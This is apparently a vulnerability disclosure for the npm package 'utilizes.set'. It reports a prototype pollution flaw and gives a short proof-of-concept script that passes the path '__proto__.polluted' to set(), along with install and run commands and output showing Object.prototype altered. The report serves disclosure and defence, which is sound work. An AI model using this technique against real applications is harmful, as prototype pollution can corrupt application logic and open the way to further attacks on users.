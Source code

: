 # Description

`utilizes.set` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var utilizesSet = require("utilizes.set")
var obj = {}
console.log("Before : " + {}.polluted);
utilizesSet.set(obj,"Yes! Its Polluted","__proto__.polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i utilizes.set # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
